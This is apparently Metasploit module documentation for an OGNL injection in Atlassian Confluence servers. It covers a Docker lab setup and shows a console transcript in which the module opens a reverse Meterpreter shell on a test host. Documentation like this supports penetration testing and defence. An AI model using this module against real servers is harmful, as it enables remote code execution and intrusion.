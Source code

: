 ## Vulnerable Application
This module exploits an OGNL injection in Atlassian Confluence servers. A specially crafted URI can be used to evaluate
an OGNL expression resulting in OS command execution.

Confluence versions up to and including 7.18 are technically vulnerable to the OGNL injection flaw. However, versions
after 7.14 (that is 7.15 and later) are not exploitable by this module for code execution due to the restrictions on the
OGNL execution environment. Version 7.13 (affected) was the latest Long-Term-Support (LTS) release at the time this
vulnerability was disclosed.

### Setup

1. Create a new `docker-compose.yml` file with the contents below.
2. Startup the container using `docker-compose up`
3. Navigate to the HTTP service running on port 8090
4. Acquire and provide an evaluation license
5. When prompted, setup a standalone / non-clustered system
6. Configure the database settings
    1. Select "By connection string", then Database URL: `jdbc:postgresql://postgresql:5432/confdb`
    2. Username and password are both `confdb`
7. Setup takes a few minutes
8. When prompted, select "Empty Site"
9. Select "Manage users and groups within Confluence"
10. Create an account, it **will not** be needed for exploitation
11. Once setup has completed select "Start" and set a space name to something

#### Docker Compose File

```
version: '3'

services:
  postgresql:
    image: postgres:11
    environment:
      POSTGRES_DB: confdb
      POSTGRES_USER: confdb
      POSTGRES_PASSWORD: confdb
    ports:
      - '5432:5432'

  confluence-server:
    depends_on:
      - postgresql
    image: atlassian/confluence:7.13.0
    ports:
      - '8090:8090'
      - '8091:8091'
```

## Verification Steps

1. Follow the steps from the Setup section to create a test instance
2. Start msfconsole
3. Run: `use exploit/multi/http/atlassian_confluence_namespace_ognl_injection'
4. Set the `RHOSTS`, `PAYLOAD` and payload-related options
5. Run the module

## Options

## Scenarios

### Confluence 7.13.0 in [Docker]

```
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set RHOSTS 192.168.159.100
RHOSTS => 192.168.159.100
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > check
[+] 192.168.159.100:8090 - The target is vulnerable. Successfully tested OGNL injection.
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Executing cmd/unix/python/meterpreter/reverse_tcp (Unix Command)
[*] Sending stage (40132 bytes) to 192.168.159.100
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.100:42050) at 2022-06-03 17:14:41 -0400

meterpreter > getuid
Server username: confluence
meterpreter > sysinfo
Computer        : 5052c5eebf8a
OS              : Linux 5.15.0-35-generic #36-Ubuntu SMP Sat May 21 02:24:07 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > 
```
